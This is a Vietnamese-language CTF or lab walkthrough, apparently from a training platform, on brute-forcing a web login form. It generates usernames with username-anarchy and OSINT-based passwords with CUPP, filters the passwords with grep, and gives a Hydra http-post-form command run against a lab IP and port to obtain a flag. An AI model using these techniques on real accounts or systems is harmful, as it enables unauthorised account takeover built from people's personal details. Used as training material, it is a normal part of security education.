 ### **Sử dụng các từ điển tùy chỉnh trong các cuộc tấn công brute-force:**

Trong các cuộc tấn công brute-force, việc sử dụng các **từ điển tùy chỉnh (custom wordlists)** giúp tăng hiệu quả và giảm thời gian so với việc sử dụng các từ điển có sẵn như **rockyou** hay **SecLists**, vì chúng được tạo ra dựa trên thông tin riêng biệt của mục tiêu, làm tăng khả năng thành công của cuộc tấn công.

#### **1. Quét và Tạo Username với Username Anarchy**:

Khi đối mặt với một mục tiêu cụ thể như **Jane Smith**, việc tạo ra một danh sách tên người dùng từ các tên cơ bản và kết hợp những kiểu phổ biến có thể bao gồm:

* **Kết hợp tên và họ**: janesmith, smithjane
* **Sử dụng tên viết tắt**: js, j.s., s.j., v.v.
* **Các biến thể khác**: sử dụng leetspeak, ký tự đặc biệt, hoặc thậm chí kết hợp sở thích cá nhân vào tên người dùng.

**Công cụ: `Username Anarchy`** giúp tạo ra một danh sách các tên người dùng có thể từ những thông tin cơ bản (tên, họ).
```bash
 sudo apt install ruby -y
 git clone https://github.com/urbanadventurer/username-anarchy.git
 cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

Kết quả sẽ là một danh sách tên người dùng đa dạng, từ đó có thể sử dụng trong cuộc tấn công brute-force.

#### **2. Tạo Mật Khẩu Tùy Chỉnh với CUPP**:

**CUPP** (Common User Password Profiler) là công cụ giúp tạo ra các từ điển mật khẩu tùy chỉnh, sử dụng thông tin cá nhân về mục tiêu như:

* **Tên** và **họ**
* **Ngày sinh**, **nickname**, **sở thích**, **mối quan hệ**, **số điện thoại**, v.v.

CUPP sẽ tạo ra một danh sách mật khẩu có thể bao gồm các biến thể từ thông tin cá nhân, như:

* **Tên gốc và chữ hoa**: jane, Jane
* **Ngày sinh**: jane1990, smith1212
* **Kết hợp các ký tự đặc biệt**: jane!, smith@, v.v.

Để tạo danh sách mật khẩu, ta có thể nhập thông tin vào CUPP trong chế độ tương tác:

```bash
cupp -i
```

Sau khi tạo mật khẩu, có thể lọc ra các mật khẩu phù hợp với chính sách của hệ thống, ví dụ như yêu cầu có ít nhất một ký tự hoa, một ký tự thường, một số, và hai ký tự đặc biệt.

Ví dụ lọc mật khẩu:

```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

#### **3. Sử dụng Hydra để Tấn Công Brute-Force**:

Sau khi có danh sách tên người dùng và mật khẩu, ta sử dụng **Hydra** để thực hiện tấn công brute-force vào form đăng nhập của trang web. Hydra sẽ thử tất cả các kết hợp tên người dùng và mật khẩu từ danh sách đã tạo.

Ví dụ lệnh:

```bash
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

Kết quả sẽ trả về **cặp tên người dùng và mật khẩu hợp lệ** nếu tìm thấy. Sau đó, người tấn công có thể đăng nhập vào trang web với **credentials** đã phát hiện và lấy cờ.

---

### **Kết luận**:

Các công cụ như **Username Anarchy** và **CUPP** giúp tạo ra các từ điển tùy chỉnh từ thông tin cá nhân của mục tiêu, làm tăng khả năng thành công của các cuộc tấn công brute-force. Sau đó, kết hợp với **Hydra** để thử tất cả các kết hợp từ điển này vào trang web mục tiêu, kẻ tấn công có thể tìm ra mật khẩu và chiếm quyền truy cập vào tài khoản của mục tiêu.
# ** Thực hành**
nmap -sV 83.136.253.59 -p 49534
./username-anarchy Jane Smith > usernames.txt
cupp -i (enter osint infomation)
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
hydra -L usernames.txt -P jane-filtered.txt 83.136.253.59 -s 49534 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
![alt text](image.png)
Log on and get flag
